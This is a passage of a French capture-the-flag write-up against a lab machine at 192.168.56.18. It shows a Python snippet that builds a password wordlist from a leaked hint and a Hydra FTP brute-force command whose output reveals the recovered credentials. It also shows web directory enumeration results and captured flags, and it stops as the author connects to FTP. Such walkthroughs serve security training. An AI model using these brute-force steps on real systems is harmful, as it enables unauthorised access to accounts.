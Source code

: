 Ce n'est toutefois pas exactement ce mot de passe qui nous servira car dans le dossier *staffblog* se trouve un document *CreedThoughts.doc* qui nous renseigne :  

> #FLAG3: 50f1ff7bc72bb24c0082be83a8b8c497  
> 
> Reminder: The IT guy told that my password is not safe enough. I wonder how he found out.  
> 
> Anyways, I added 3 digits to the end so it's supersafe now. Nobody's gonna crack that, baby!

On va donc utiliser le code Python suivant pour générer une wordlist :  

```python
for i in range(1000):
    print("creed" + str(i).rjust(3, "0"))
```

Hydra est une fois de plus de la partie :  

```plain
$ hydra -l creed -P pass.txt ftp://192.168.56.18 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 
Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000 login tries (l:1/p:1000), ~63 tries per task 
[DATA] attacking ftp://192.168.56.18:21/ 
[21][ftp] host: 192.168.56.18   login: creed   password: creed223 
1 of 1 target successfully completed, 1 valid password found
```

Avant d'aller plus loin, finissons en avec les autres ports web.  

Sur le port 65533 une énumération rapporte un dossier nommé *secret* sur lequel on trouve le flag suivant :  

```plain
#FLAG2: 0a9025f72493da059a26db3acb0e2c42
```

Pour terminer, le port 18888 fait tourner une appli web de galerie d'image et on trouve aussi une URL */admin* qui fait tourner un soft baptisé *Koken*.  

```plain
200        0l        0w        0c http://192.168.56.18:18888/i.php
301        9l       28w      321c http://192.168.56.18:18888/app 
301        9l       28w      323c http://192.168.56.18:18888/admin
301        9l       28w      325c http://192.168.56.18:18888/storage 
403        9l       28w      281c http://192.168.56.18:18888/server-status
```

J'ai essayé rapidement de voir si je trouvais un paramètre pour le script *i.php* qui sert sans doute à lire les images dans l'idée d'obtenir in directory traversal mais sans succès.  

Back to les moutons
-------------------

Une fois connecté au FTP avec les identifiants récupérés plus tôt on remarque deux fichiers :  
